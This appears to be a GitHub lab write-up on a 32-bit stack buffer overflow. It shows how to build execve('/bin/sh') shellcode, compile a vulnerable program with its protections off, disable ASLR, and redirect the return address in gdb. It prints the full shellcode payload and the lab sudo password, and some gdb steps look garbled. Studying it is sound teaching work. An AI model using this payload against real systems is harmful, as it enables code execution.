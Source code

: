 # Understand InjectionCode 
In reality, we don't actually know how long is the stackframe is, so we need to determine how long is it by adding bytes to examine! The task is to load the shellcode into the buffer in the vulnerable program, then insert it into the return address so that the program returns and executes the command I just inserted into the buffer.
## Stackframe
![image](https://github.com/user-attachments/assets/45d28a14-09e3-448e-9ad8-5e3c82b7cd99)
## Vulnerbility
In buf, we can redirect the return address to our assembly code to run our own code!
# Start attacking with InjectionCode 
## Compiling sh.asm file in order to use later
- `nasm -g -f elf sh.asm` or `nasm -f elf32 sh.asm -o sh.o` if the file is existed    
- `ld -m elf_i386 sh.o -o sh sh.o`  
![image](https://github.com/user-attachments/assets/a1d163e7-fb87-4dd8-b958-7ab4893fb80d)
![image](https://github.com/user-attachments/assets/34da393b-eca5-491c-9092-1cdfa8ec6c95)
## Get the hex string of the shellcode
- `for i in $(objdump -d sh | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo`
![image](https://github.com/user-attachments/assets/6a6fe454-3a88-4ba7-ad41-5e24d06c9757)
=> With each x is a byte => we have 27 bytes
## Start attacking
- Compile the vuln.c file `gcc vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2`
![image](https://github.com/user-attachments/assets/59643489-9be9-40d2-bd46-56df9be508bd)  
- To execute code on stack, we need to create new shell! type `sudo ln -sf /bin/zsh /bin/sh` with password: dees
![image](https://github.com/user-attachments/assets/46290e78-f765-4ab3-86d9-a03b63c68962)
- Load the file to gdb to examine `gdb -q vuln.out`
![image](https://github.com/user-attachments/assets/71f61be6-604e-429c-8b6f-6b451ea430b7)
- Type `disas main` to see the assembly code
![image](https://github.com/user-attachments/assets/e48f3b4d-e61d-4431-8b0f-4d760b1ee3fb)  
=> At this stage, we will now add 2 breakpoints to see how the code we inject affect the stack!  
- Set at +6, after the stack frame is established `b *0x08048441`
  ![image](https://github.com/user-attachments/assets/a3d3478f-9972-434b-9179-7d420b293451)
- Set at +48, before strcpy, we notice that eax has been pushed twice, meaning esp has now decreased by 8 bytes `b *0x0804846b`
  ![image](https://github.com/user-attachments/assets/88216630-ceeb-49f2-99b9-e3673a504d8e)
- Now we run the python code with `r $(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80' + 'a'*41 + '\xff\xff\xff\xff')")`
 => See where the **\xff\xff\xff\xff** at
 ![image](https://github.com/user-attachments/assets/81c15458-dc77-471e-919b-1bc159f401b5)
 => At each step, we use `x/80xb $esp` to see the code from esp to lower
 ![image](https://github.com/user-attachments/assets/1a8a1a62-1e4c-4e78-ba2d-90365c5c5eb4)
    * We notice that the shellcode hasn't been inserted!
 => To go on, we use `continue`
 ![image](https://github.com/user-attachments/assets/6ce01ee3-bd39-42bb-9765-6d0add497f62)
    * From now, when we do `x/80xb $esp`, we can see our code that we injected before!
      ![image](https://github.com/user-attachments/assets/c064f0b2-cc47-438c-8d87-6943f7d06020)
    * the **0xff 0xff 0xff 0xff** is at the address 0xffffd6a8 (Because memory starts from address 0 - 15, corresponding to 0 - F in hexadecimal, the first 0xff byte will have a memory address starting with 0xffffd6a8)
- We set that new address to the esp by using `set *0xffffdec=#esp` => Thus, the address in the return address (ret addr) has been replaced by the esp (stack pointer), causing the program to return and continue executing instructions within the stack frame.
  ![image](https://github.com/user-attachments/assets/2f4f1fb7-53bf-4cca-948d-144d5206e5b5)
- If we type continue we will receive this signal => You did the right way!
  ![image](https://github.com/user-attachments/assets/70420abe-e18e-41d3-bccc-3c74056f16d9)
## To disable Address Space Layout Randomization (ASLR), which is responsible for the randomization of memory addresses, you can follow these steps
`sudo sysctl -w kernel.randomize_va_space=0` with password: **dees**  
## If you want to turn it on again please
do `sudo sysctl -w kernel.randomize_va_space=2`  
- 2 means on both heap and stack  
  ![image](https://github.com/user-attachments/assets/c81211de-3710-4d2b-9ca6-2fdf4c2b325f)
- 1 means for only stack
  ![image](https://github.com/user-attachments/assets/df985c95-1dca-4f8a-908f-8cc99afaa8cf)
- 0 means not for both
  ![image](https://github.com/user-attachments/assets/a920732c-cafb-4b9f-a8f1-6ee3ea9a4fbd)
